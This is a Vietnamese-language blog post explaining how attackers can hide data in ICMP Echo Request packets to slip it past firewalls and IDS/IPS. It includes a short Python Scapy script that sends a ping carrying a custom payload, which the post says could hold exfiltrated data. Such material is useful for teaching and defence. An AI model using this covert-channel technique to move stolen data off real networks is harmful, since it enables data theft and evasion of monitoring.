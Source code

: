 ```yaml
---
title:  "ICMP Packets with Payload"
date: 2025-04-13 10:00:00 +0700
comments: true
description: How to Create ICMP Packets with Payload to Exfiltrate Data
categories: [Cybersecurity, Networking]
toc: true
tags: [protocol, python, packet, icmp]
image:
    path: /assets/img/posts/2025-04-13-how-to-create-icmp-packet-with-payload-exfiltrate-data/icmp.png
---
```


## Introduction
Trong một số tình huống, kẻ tấn công có thể lợi dụng giao thức ICMP để gửi dữ liệu ra ngoài mạng, vượt qua các tường lửa và hệ thống Phát hiện/Ngăn chặn xâm nhập (IDS/IPS). Điều này có thể được thực hiện bằng cách nhúng dữ liệu vào các gói ICMP Echo Request và Echo Reply, khiến việc phát hiện việc xâm nhập trở nên khó khăn hơn.

Các gói ICMP, thường được sử dụng cho các chẩn đoán mạng như "ping", có thể bị thao túng để mang theo các payload tùy chỉnh (dữ liệu) mà kẻ tấn công muốn gửi.

---
## ICMP Payload Theory

- **ICMP Echo Request (Loại 8) và Echo Reply (Loại 0)** là các loại gói ICMP phổ biến, thường được sử dụng cho các yêu cầu ping. Tuy nhiên, ngoài việc kiểm tra kết nối, chúng có thể chứa một payload — dữ liệu mà kẻ tấn công muốn gửi.
  
- **Payload** đề cập đến dữ liệu được bao gồm trong gói ICMP. Dữ liệu này có thể là văn bản thuần túy, thông tin đã mã hóa hoặc thậm chí là dữ liệu bị đánh cắp.

---
## Creating ICMP Packets with Payload

Bạn có thể tạo các gói ICMP với payload tùy chỉnh bằng cách sử dụng Python và thư viện `Scapy`. Dưới đây là ví dụ về cách tạo một gói ICMP Echo Request với payload tùy chỉnh.

```python
from scapy.all import IP, ICMP, send

def send_icmp_payload(target_ip, message):
    # The payload is the message you want to send, can be encoded data
    payload = bytes(message, 'utf-8')

    # Create an ICMP Echo Request packet
    packet = IP(dst=target_ip) / ICMP(type=8) / payload  # type=8 is Echo Request

    # Send the packet
    print(f"Sending ICMP Echo Request with payload to {target_ip}")
    send(packet)

## Target IP and the message to be sent
target_ip = "192.168.x.x"  # Replace with the actual target IP address
message = "This is a test payload that could contain exfiltrated data."

send_icmp_payload(target_ip, message)
```
